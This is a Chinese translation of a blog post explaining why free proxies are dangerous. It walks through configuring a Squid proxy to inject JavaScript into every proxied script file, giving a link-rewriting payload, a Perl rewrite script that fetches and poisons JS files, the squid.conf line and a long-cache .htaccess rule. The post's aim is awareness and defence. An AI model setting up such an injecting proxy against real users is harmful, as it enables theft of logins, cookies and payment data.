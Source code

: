 ```yaml
---
title: 'Why are free proxies free?[译]'
layout: post
guid: urn:uuid:b87da13a-a4dd-402f-b06a-cef720150705
tags:
    - web
    - security
---
```



本文由 [伯乐在线](http://blog.jobbole.com) - [光光头去打酱油](http://www.jobbole.com/members/zhongjianno1) 翻译，[黄利民](http://www.jobbole.com/members/huanglimin) 校稿。未经许可，禁止转载！
英文出处：[Christian Haschek](https://blog.haschek.at/post/fd9bc)。欢迎加入[翻译组](http://group.jobbole.com/category/feedback/trans-team/)。

【伯乐在线注】：原文副标题是“因为这是一种轻松搞到成千上万用户数据的途径”，作者后来还写了一篇文章《[分析了443个免费代理，其中只有21％没有黑幕，那么剩下的79%呢？](http://blog.jobbole.com/87822/)》。

最近偶然发现， Chema Alonso 在 Defcon 20 会议上谈到他如何从头开始创建一个JavaScript 僵尸网络，然后如何使用它来找到骗子和黑客。

一切都是通过一个 SQUID 代理并修改了些小配置完成的。

这个想法非常简单：

1.【服务器】在一台 linux 服务器上安装 Squid

2.【Payload】修改服务器配置，给所有传输的 javascript 文件插入一些代码，这些代码的作用就是将用户数据传送到你的服务器上，比如用户在表单中输入的所有数据。

3.【缓存】将修改过的 js 文件的缓存时间尽可能延长。

## 可能发生的最坏事情是什么？

当某人能强迫你加载一个受感染的 JS 文件， 那他们可以：

*   窃取你访问的网站的登录信息（从登录表单中或 cookies）
*   窃取你的银行账号或信用卡信息
*   强迫你参与 DDOS 攻击，让你的浏览器一秒钟内加载一个网站几百次，通过 iframe 或 script（脚本）来发送请求。
*   基本你上网做的任何事情都能看到（包括你阅读时鼠标的位置）

## https

如果你的网站加载了一些不安全的资源（比如从一个 http 站点加载 jquery），那该手法在 https 链接上也能生效。大多数浏览器都会提醒你，有些甚至会阻止你访问不安全的内容，但是没有人注意到浏览器地址栏中“锁”的符号。

#### 举个例子

安全：[![a1279bf58d](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)](http://jbcdn2.b0.upaiyun.com/2015/06/4052c3bb6c17583a7cfddf7f07331480.png)

不安全：[![9f0d9fc0ce](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)](http://jbcdn2.b0.upaiyun.com/2015/06/40d5191bfedec42199ee845c3a1aae59.png)

在介绍中，Chema 说他将修改过的服务器 IP 地址发布到网络上，几天后就有 5000 多人使用这个代理。大多数使用代理的人都是为了做坏事，因为他们都知道使用了代理在网络上就变成匿名了，似乎许多人都没有考虑过这个问题：代理同样也可以对他们做一些坏事。

我在想是不是真的那么简单，所以我建了一个运行 Debian(Linux的一个发行版) 的虚拟机，然后努力实现这些概念。

## 编写自己的 js 来感染代理

假设你有一个运行 squid 的代理，同时你还需要一个网站服务器，如使用 /var/www 为根目录(默认设置)的 Apache 服务器。

## 步骤1：创建一个 payload

我打算用一个简单的脚本获取网页上所有的链接，然后将 href(链接) 属性改写成我的站点。

/etc/squid/payload.js

    for(var i=0;i&lt;document.getElementsByTagName('a').length;i++)  
       document.getElementsByTagName('a')[i].href = "https://blog.haschek.at";

## 步骤2：将脚本注入所有请求的 js 文件中。

/etc/squid/poison.pl

```
#!/usr/bin/perl

$|=1;
$count = 0;
$pid = $;

while(&lt;&gt;)
{
  chomp $_;
  if($_ =- /(.*.js)/i)
  {
        $url = $1;
        system("/usr/bin/wget","-q","-O","/var/www/tmp/$pid-$count.js","$url");
        system("chmod o+r /var/www/tmp/$pid-$count.js");
        system("cat /etc/squid/payload.js &gt;&gt; /var/www/tmp/$pid-$count.js");
        print "http://127.0.0.1:80/tmp/$pid-$count.jsn";
  }
  else
  {
        print "$_n";
  }
$count++;
}
```

这个脚本会用 wget 检索到客户端请求的原来的 javascript 文件，然后将 /etc/squid/payload.js 文件中的代码增加进去。这个修改的文件（包含我们的有效负载）将被发送给客户端。你也可以创建文件夹 /var/www/tmp ，然后允许 squid 在该文件夹中写入。这个文件夹可以存放所有被修改过的 js 脚本。

## <步骤3：告诉 Squid 使用上文中的脚本

在 /etc/squid/squid.conf 中添加

<pre class="brush: text; gutter: true">url_rewrite_program /etc/squid/poison.pl</pre>

## 步骤4：让缓存永不过期

/var/www/tmp/.htaccess

    ExpiresActive On
    ExpiresDefault "access plus 3000 days"

这几行告诉 apache 服务器，设置一个疯狂的过期（缓存）时间，所以它会一直存在用户的浏览器中，直到他们清除缓存或 cookies。

重启下 squid 就能运行了。如果你连接到代理上，然后浏览网页，网页会显示预期的内容，但是所有的链接会被指向这个博客。这项技术更猥琐的是，当你断开了与代理的连接，从代理缓存的 js 文件仍存在浏览的缓存中。

在我的例子中 payload 不太具有破坏性，用户很快就能理解什么是“钓鱼”，但是富有创造性的 payload 或像 Beef 类似的框架就能被用来实现各种各样的东西。告诉你的朋友们，绝不要使用免费的代理，因为许多代理就做这些坏事情。

安全上网（但不要使用免费的代理）